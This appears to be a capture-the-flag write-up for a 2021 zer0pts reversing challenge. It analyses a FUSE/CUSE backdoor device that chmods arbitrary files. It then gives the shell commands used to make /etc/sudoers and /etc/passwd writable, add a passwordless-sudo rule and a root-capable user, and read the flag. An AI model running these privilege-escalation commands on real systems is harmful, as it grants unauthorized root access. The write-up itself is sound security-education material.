 ```yaml
---
tags: reverse
year: 2021
authors: crit, ttmx
---
```


# infected

We were given the binary and told that the host was running it,
we just needed to use it.

## Reversing

So, this was definitely not in my comfort zone,
in fact it was just at the limit for my limited experience with reverse.

### What is it?

Opening up `main` we only see `register_backdoor`. Looking into it, we see `cuse_lowlevel_main`.

```
0x00000d1d      lea     rcx, devops ; 0x201d00
0x00000d24      mov     edi, eax
0x00000d26      call    cuse_lowlevel_main ; sym.imp.cuse_lowlevel_main
```

Following `devops` we get:
```
...
0x00201d14      add     byte [rax], al
0x00201d16      add     byte [rax], al
0x00201d18      .qword 0x0000000000000a9a ; sym.backdoor_open
0x00201d20      add     byte [rax], al
0x00201d22      add     byte [rax], al
0x00201d24      add     byte [rax], al
0x00201d26      add     byte [rax], al
0x00201d28      .qword 0x0000000000000ac0 ; sym.backdoor_write; RELOC 64
0x00201d30      add     byte [rax], al
0x00201d32      add     byte [rax], al
...
```

So now we just need to check those two.
`backdoor_open` simply acts as a wrapper to `fuse_reply_open`,
while `backdoor_write` is more complex.

A quick Google search reveals to me that `fuse` stands for *Filesystem in Userspace*.
Looking further into it, I read:

> This device is the primary interface between the FUSE filesystem driver and a user-space process wishing to provide the filesystem (referred to in the rest of this manual page as the filesystem daemon).

```
$ ls /dev
/dev/backdoor
...
```

Bingo!

### Finding out more

I kept reversing the binary and found out that there were three calls to `strtok`:
```c
iVar4 = strtok(iVar3, 0xe20);
arg1_00 = strtok(0, 0xe20);
iVar5 = strtok(0, 0xe20);
```
This means the input is split by a token stored at address `0xe20` which turned out to be `:`.

Afterwards we have:
```c
iVar1 = strncmp(iVar4, 0xe22, 8);
if (iVar1 == 0) {
    stat64(arg1_00, (int64_t)&var_a0h);
    if (((uint32_t)var_88h & 0xf000) == 0x8000) {
        uVar2 = atoi(iVar5);
        iVar1 = chmod(arg1_00, uVar2, uVar2);
        if (iVar1 == 0) {
            fuse_reply_write(arg1, arg3, arg3);
            goto code_r0x00000c7d;
        }
    }
    fuse_reply_err(arg1, 0x16);
} else {
    fuse_reply_err(arg1, 0x16);
}
```

The first part was compared to 8 bytes stored at `0xe22`, these were `b4ckd00r`.
The second part was passed in to `stat64`, I assumed it was to check for file existence.
And finally, the third part it was converted to an `int` and then passed to `chmod`.

So our binary would receive a string for format `b4ckd00r:file:perms`,
and apply `chmod` to the passed file.

## Pwning the backdoor

Oh, it's just a `chmod`, that's easy.
I check if there are any `crontabs` I could exploit, but find none.
I check if sudo is available, and it is! Time to `chmod` the `/etc/sudoers` file and get root that way.

```bash
echo "b4ckd00r:/etc/sudoers:777" > /dev/backdoor
```

Now we try to write to it... But we can't?
Oh, the perms are all messed up, that's totally not 777.

```sh
$ ls -l /etc/sudoers
------x--x
```

Hmmm, lets investigate this further.
Lets make a random file at `/tmp/t` and see if I can understand the perms.

```sh
$ echo "b4ckd00r:/tmp/t:2" > /dev/backdoor
# resulted in --------w-
$ echo "b4ckd00r:/tmp/t:3" > /dev/backdoor
# resulted in --------wx
```

Oh, I know this pattern, its just binary. That's probably the default behavior, I just did not know about it.

`1111111111` binary to decimal is `1023`, lets try that.

```sh
$ echo "b4ckd00r:/tmp/t:1023" > /dev/backdoor
# .rwxrwxrwx
```

That looks good! Lets use it on the real one.

```sh
$ echo "b4ckd00r:/etc/sudoers:1023" > /dev/backdoor
```

Now with the chmoded file we need to add something to let us use sudo... What about all commands without any password? Seems safe.

```sh
$ echo "ALL ALL=(ALL) NOPASSWD: ALL">>/etc/sudoers
```

It didn't error out!

Sudo requires the permissions on `/etc/sudoers` to not be writable by everyone, so we just revert that.
It also requires us to be on the user list, which we are not, we just have `uid 1000`, but no user.

```sh
$ echo "b4ckd00r:/etc/sudoers:448" > /dev/backdoor
```

Sudo perms fixed, onto adding a user, with `uid 1000` and a random name.
```sh
$ echo "b4ckd00r:/etc/passwd:1023" > /dev/backdoor
$ echo "heck:x:1000:1000:heck:/root:/bin/sh">>/etc/passwd
$ sudo /bin/ls /root
flag-b40d08b2f732b94d5ba34730c052d7e3.txt
$ sudo /bin/cat /root/flag-b40d08b2f732b94d5ba34730c052d7e3.txt
zer0pts{exCUSE_m3_bu7_d0_u_m1nd_0p3n1ng_7h3_b4ckd00r?}
```
And there's the flag!